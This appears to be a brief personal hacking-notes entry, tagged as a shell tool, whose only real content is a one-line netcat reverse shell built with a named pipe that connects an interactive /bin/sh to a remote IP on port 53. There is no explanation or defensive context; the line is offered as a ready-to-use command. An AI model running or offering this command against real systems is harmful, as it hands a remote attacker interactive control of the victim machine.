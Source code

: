 
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.133.57 53>/tmp/f



-------

# Tags
#tools #mkfifio #shell #forwardShelll 

------
